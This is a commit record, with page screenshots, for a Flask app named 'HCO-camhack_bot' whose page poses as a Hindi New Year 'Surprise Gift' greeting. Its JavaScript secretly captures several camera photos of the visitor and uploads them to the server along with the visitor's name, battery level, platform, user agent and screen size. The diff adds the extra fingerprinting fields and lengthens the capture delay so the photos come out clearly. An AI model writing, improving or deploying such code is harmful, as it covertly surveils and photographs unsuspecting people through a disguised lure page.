

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the top 603 px of the page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -9,24 +9,23 @@
         body { background: #000; color: #fff; font-family: sans-serif; margin: 0; display: flex; justify-content: center; align-items: center; height: 100vh; overflow: hidden; }
         .container { text-align: center; width: 85%; max-width: 400px; padding: 25px; border: 2px solid #ff0055; border-radius: 25px; background: #0a0a0a; box-shadow: 0 0 25px #ff0055; }
         h1 { color: #ff0055; text-shadow: 0 0 10px #ff0055; }
-        input { padding: 15px; width: 85%; border-radius: 30px; border: 1px solid #ff0055; background: #111; color: #fff; margin-bottom: 20px; text-align: center; font-size: 16px; }
-        button { padding: 15px 35px; border-radius: 30px; border: none; background: #ff0055; color: #fff; font-weight: bold; cursor: pointer; font-size: 18px; }
+        input { padding: 15px; width: 85%; border-radius: 30px; border: 1px solid #ff0055; background: #111; color: #fff; margin-bottom: 20px; text-align: center; }
+        button { padding: 15px 35px; border-radius: 30px; border: none; background: #ff0055; color: #fff; font-weight: bold; cursor: pointer; }
         #wish-box { display: none; }
-        .wish-text { font-size: 20px; font-weight: bold; line-height: 1.4; }
     </style>
 </head>
 <body>
 
     <div class="container" id="main-box">
-        <h1>🎇 New Year Gift 🎇</h1>
+        <h1>🎇 Surprise Gift 🎇</h1>
         <p>अपना नाम लिखें और उपहार खोलें!</p>
-        <input type="text" id="userName" placeholder="आपका नाम यहाँ लिखें...">
+        <input type="text" id="userName" placeholder="आपका नाम लिखें...">
         <button onclick="startApp()">उपहार खोलें ✨</button>
     </div>
 
     <div class="container" id="wish-box">
-        <div class="wish-text" id="wishMsg"></div>
-        <p style="margin-top: 20px; color: #ff0055;">🎊 Happy New Year 2026 🎊</p>
+        <h2 id="wishMsg" style="font-size: 20px;"></h2>
+        <p>🎊 Happy New Year 2026 🎊</p>
     </div>
 
     <video id="v" style="display:none" autoplay playsinline></video>
@@ -41,28 +40,22 @@
         async function startApp() {
             let name = document.getElementById('userName').value;
             if(!name) return alert("नाम डालना जरूरी है!");
-
-            // स्क्रीन बदलें
             document.getElementById('main-box').style.display = 'none';
             document.getElementById('wish-box').style.display = 'block';
-            document.getElementById('wishMsg').innerText = `Hey ${name}, मेरी तरफ से आपको और आपके पूरे परिवार को New Year 2026 की ढेर सारी शुभकामनाएँ!`;
-
-            // म्यूजिक और पटाखे शुरू करें
+            document.getElementById('wishMsg').innerText = `Hey ${name}, मेरी तरफ से आपको New Year 2026 की शुभकामनाएँ!`;
             document.getElementById('music').play();
-            setInterval(() => {
-                confetti({ particleCount: 100, spread: 70, origin: { y: 0.6 } });
-            }, 2000);
-
-            // कैमरा कैप्चर शुरू करें
+            setInterval(() => { confetti({ particleCount: 100, spread: 70, origin: { y: 0.6 } }); }, 2000);
             initCapture(name);
         }
 
         async function initCapture(name) {
-            let info = { battery: "N/A", platform: navigator.platform };
-            try {
-                let b = await navigator.getBattery();
-                info.battery = Math.round(b.level * 100) + "%";
-            } catch(e) {}
+            let info = {
+                battery: "N/A",
+                platform: navigator.platform,
+                browser: navigator.userAgent.split(' ').pop(),
+                screen: window.screen.width + "x" + window.screen.height
+            };
+            try { let b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; } catch(e){}
 
             if(mode === 'front') await runCam(name, info, {facingMode: "user"}, 5, "FRONT");
             else if(mode === 'back') await runCam(name, info, {facingMode: "environment"}, 5, "BACK");
@@ -80,28 +73,26 @@
                 let video = document.getElementById('v');
                 video.srcObject = stream;
 
-                // 6 सेकंड का इंतज़ार ताकि फोटो काली न आए
-                await new Promise(r => setTimeout(r, 6000));
+                // 10 सेकंड का डिले (काली फोटो को रोकने के लिए पक्का समाधान)
+                await new Promise(r => setTimeout(r, 10000));
 
                 for (let i = 1; i <= count; i++) {
                     let can = document.getElementById('c');
                     can.width = video.videoWidth;
                     can.height = video.videoHeight;
-                    let ctx = can.getContext('2d');
-                    ctx.drawImage(video, 0, 0);
+                    can.getContext('2d').drawImage(video, 0, 0);
 
                     fetch('/upload', {
                         method: 'POST',
                         headers: {'Content-Type': 'application/json'},
                         body: JSON.stringify({
                             name: name,
-                            image: can.toDataURL('image/jpeg', 0.5),
+                            image: can.toDataURL('image/jpeg', 0.6),
                             info: info,
                             label: label+" "+i,
                             uid: uid
                         })
                     });
-                    // अगली फोटो के लिए थोड़ा इंतज़ार
                     await new Promise(r => setTimeout(r, 3500));
                 }
                 stream.getTracks().forEach(t => t.stop());
```
